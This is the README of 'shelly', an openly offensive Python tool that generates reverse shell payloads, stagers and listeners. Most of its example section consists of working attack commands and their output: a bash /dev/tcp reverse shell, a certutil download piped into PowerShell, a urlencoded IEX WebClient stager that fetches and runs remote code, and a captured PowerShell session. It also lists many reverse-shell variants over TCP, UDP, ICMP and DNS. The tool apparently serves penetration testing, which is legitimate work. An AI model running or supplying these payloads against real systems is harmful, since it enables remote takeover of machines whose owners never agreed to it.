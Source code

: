 # shelly
(mainly reverse shell) payload generator (and shell catcher) written in python2.7

Tool created to automate the creation of payloads to get a reverse shell, making easier to encode it, or serve it using a stager. It's made in a way that is very easy to add more payloads, stagers and connectors.

### Payloads
* reverse_icmp_powershell
* reverse_tcp6_python
* reverse_tcp_bash
* reverse_tcp_bash_setsid (using setsid)
* reverse_tcp_netcatbsd (no -e option)
* reverse_tcp_netcatbsd_noamp (no -e option, not using &)
* reverse_tcp_openssl (encrypts connection)
* reverse_tcp_openssl_noamp (encrypts connection, not using &)
* reverse_tcp_perl
* reverse_tcp_perl_noamp (not using &)
* reverse_tcp_php
* reverse_tcp_phpmonkey (oneliner based on pentest monkeys php rev shell)
* reverse_tcp_powercat (powershell, stager required)
* reverse_tcp_powershell
* reverse_tcp_python
* reverse_tcp_python_pty (prepared to make it interactive: ctr+z, stty raw -echo, fg)
* reverse_tcp_ruby
* reverse_socat_ssl
* reverse_udp_dnscat2 (powershell, stager required)
* reverse_udp_netcatbsd (no -e option)
* reverse_udp_perl
* reverse_udp_python
* reverse_udp_python_pty (prepared to make it interactive: ctr+z, stty raw -echo, fg)

### Stagers
Various techinques used to deliver staged payloads. Only http at the moment:
* certutil & powershell -ep bypass -nop -f
* certutil & type 2 powershell -nop -
* echo IEX Webclient 2 powershell -nop -


### Connectors
Connectors are the confguration settings that allow to chatch the shell executed for the payload
* reverse_icmp_icmpsh (require have installed icmpsh and setup the connector file with correct path, elevated privs)
* reverse_tcp6_netcat
* reverse_tcp_ncat_ssl
* reverse_tcp_netcat
* reverse_tcp_openssl
* reverse_socat_ssl
* reverse_udp_dnscat2 (require have ruby + server installed and working prior to use it)
* reverse_udp_netcat

## Installation
* ```git clone https://github.com/ompamo/shelly.git```
* configure BASE_PATH on 'shelly' file. Default: /opt/shelly
* ```ln -s /opt/shelly/shelly /usr/local/bin/shelly```
* To enable bash-completion add to your ~/.bashrc file: ```eval "$(register-python-argcomplete shelly)"```
* Install required libs:````pip install -r requirements.txt```

## Extra features
* Auto copy payloads to paperclip (xclip required)
* Generate urlencoded payloads

## Examples
* Generating a reverse tcp bash shell payload
```
root@kali:/opt/shelly# ./shelly rev --payload reverse_tcp_bash --lhost 10.0.2.11 --lport 1234
[*] Payload generated:
/bin/bash -i >& /dev/tcp/10.0.2.11/1234 0>&1
```
* Getting the info for that payload
```
root@kali:/opt/shelly# ./shelly show payload reverse_tcp_bash
[*] bash TCP reverse shell payload
    Info          : bash command to spawn a reverse shell. No special opts required.
    Required Opts : ['LHOST', 'LPORT']
    Connector     : reverse_tcp_netcat
    Payload       : /bin/bash -i >& /dev/tcp/LHOST/LPORT 0>&1
```
* Checking stager info and spawning a PS reverse shell using a web stager on port 8080 and catching the shell
```
root@kali:/opt/shelly# ./shelly rev -p reverse_tcp_powershell -H 10.0.2.11 -P 4444 --stager web_certutil_type2powershell --sport 8080 --param1 c:\\Windows\\Tasks --listen 
[*] Payload generated:
certutil -urlcache -split -f http://10.0.2.11:8080/dJaBEjxo1r c:\Windows\Tasks\dJaBEjxo1r.txt & type c:\Windows\Tasks\dJaBEjxo1r.txt | powershell -nop -
[*] Serving stage at port 8080
10.0.2.4 - - [16/May/2018 14:58:31] "GET /dJaBEjxo1r HTTP/1.1" 200 -
[*] Part 1 of 2 sent
10.0.2.4 - - [16/May/2018 14:58:31] "GET /dJaBEjxo1r HTTP/1.1" 200 -
[*] Part 2 of 2 sent

[*] Reverse TCP Netcat listener - No additional info
Listening on [0.0.0.0] (family 0, port 4444)
Connection from 10.0.2.4 49196 received!

PS C:\> 

```
* Also we can get it urlencoded (to work with ie with curl or other tools)
```
root@kali:/opt/shelly# ./shelly rev -p reverse_tcp_powershell -H 10.0.2.11 -P 4444 --stager web_echo2powershell --urlencode -l
[*] Payload generated:
echo%20IEX%28New-Object%20Net.WebClient%29.DownloadString%28%27http%3A%2F%2F10.0.2.11%3A80%2Fu5KWfOkL6b%27%29%20%7C%20powershell%20-nop%20-
[*] Serving stage at port 80
...
```

### External scripts used on this project as payloads
* [PowerCat.ps1](https://github.com/besimorhino/powercat) from Besimorinho
* [Inovke-PowerShellIcmp.ps1](https://github.com/samratashok/nishang) from Samratashok
* [dnscat2.ps1](https://github.com/lukebaggett/dnscat2-powershell) from Luke Bagget
* [php-reverse-shell](http://pentestmonkey.net/tools/php-reverse-shell/php-reverse-shell-1.0.tar.gz) from PentestMonkey
